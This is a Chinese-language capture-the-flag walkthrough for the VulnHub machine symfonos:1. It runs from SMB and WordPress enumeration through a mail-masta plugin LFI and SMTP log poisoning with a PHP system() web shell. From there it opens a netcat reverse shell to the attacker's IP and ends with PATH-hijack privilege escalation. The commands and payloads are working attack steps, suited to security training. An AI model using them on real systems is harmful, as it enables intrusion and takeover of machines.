




# symfonos1-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/symfonos-1,322/

**Description**

Beginner real life based machine designed to teach a interesting way of obtaining a low priv shell. SHOULD work for both VMware and Virtualbox.

- Name: symfonos: 1
- Difficulty: Beginner
- Tested: VMware Workstation 15 Pro & VirtualBox 6.0
- DHCP Enabled

Note: You may need to update your host file for symfonos.local

**知识点**
- smb 信息探测
- wordpress 插件 LFI 漏洞
- SMTP 日志投毒

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```


排除法,去掉自己、宿主机、网关, `192.168.141.148` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.148
```


开放的蛮多的,22、25、80、139、445,既然 445 开着,就跑一下 SMB 探测的工具
```
enum4linux 192.168.141.148
```



有1个 /anonymous 可访问
```
smbclient //192.168.141.148/anonymous -U % -N
```
这里 -U 表示用户名，% 表示用户名。

参数 -N 用于空密码



有个文本文件,下下来看看
```
get attention.txt
```


按照文件所说,密码应该就是
```
epidioko
qwerty
baseball
```
虽然可能是 SSH 的密码，不过没有用户名，还是先放一放再说，不过刚刚枚举 smb 时发现存在1个要密码的目录
```
helios
```

说不定是这个的密码,连接试试
```
smbclient //192.168.141.148/helios -U helios
```


把文件down下来看看
```
get research.txt
get todo.txt
```


research.txt 没什么帮助,todo 里提示了 `/h3l105` ,这个 `/` 就很灵性了,一般就可以猜想到和 web 有关

下面看一看 web 服务

先按要求添加以下 hosts 文件
```
echo "192.168.141.148 symfonos.local" >> /etc/hosts
```



啥都没有, /h3l105 试试


wordpress! 到了使用 wpscan 的时候了
```
wpscan --url http://symfonos.local/h3l105/
wpscan --url http://symfonos.local/h3l105/ --enumerate u
wpscan --url http://symfonos.local/h3l105/ --api-token xxxxxxx
wpscan --url http://symfonos.local/h3l105/ -e p --api-token xxxxxxx你的apitokenxxxx
```

5.2.2 版本,只有 admin 一个用户,不过倒是有几个插件漏洞


SQL 注入里面有几个需要认证,这个没有,测一测 LFI

---

# 中期-漏洞利用

`http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`


可以,下面尝试从其他文件得到一些信息

`http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios`


既然可以读邮件,那么可以尝试一下密码找回


使用重置后的密码登录后台,尝试拿 shell 无果,google 后发现有人使用 SMTP 日志投毒配合 LFI 来进行 RCE https://www.hackingarticles.in/smtp-log-poisioning-through-lfi-to-remote-code-exceution/

跟着大佬学
```
telnet 192.168.141.148 25
MAIL FROM: <test>
RCPT TO: Helios
data
<?php system($_GET['a']);?>
.
quit
```



访问 helios 邮件 `http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&a=ip a` 测试


可以执行,测试回弹 shell,kali 监听
```
nc -lvp 4444
```

访问 `http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&a=nc -nv 192.168.141.134 4444 -e /bin/bash`


回弹成功,下面提权

---

# 后期-提权

```
python -c 'import pty; pty.spawn("/bin/bash")'
sudo -l
find / -perm -u=s 2>/dev/null
```


看上去啥也没有,尝试用下提权脚本


这里有个不常见的 suid 文件 statuscheck,看看是干嘛的
```
type /opt/statuscheck
ls -l /opt
/opt/statuscheck
```


内容看上去是个 web 的请求包,用 strings 在看看
```
strings /opt/statuscheck
```


看上去是使用 curl 访问本地网页, `curl -I http://localhost`

这里可以写一个自定义的 curl 文件,让其提权
```
cd /tmp
echo $'#!/bin/sh\n/bin/sh' > curl
chmod +x curl
export PATH=$(pwd):$PATH
/opt/statuscheck
whoami
cd /root
ls
cat proof.txt
```


提权成功,感谢靶机作者 Zayotic
